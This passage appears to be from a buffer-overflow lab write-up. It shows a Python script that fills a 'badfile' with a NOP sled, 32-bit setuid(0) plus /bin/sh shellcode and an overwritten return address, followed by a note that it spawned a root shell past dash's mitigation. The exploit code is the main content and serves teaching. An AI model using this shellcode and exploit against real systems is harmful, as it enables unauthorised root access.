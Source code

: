 ```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a root shell. By including the assembly code for the
`setuid(0)` system call before the shellcode, we were able to spawn a root shell
on dash, bypassing its mitigation.
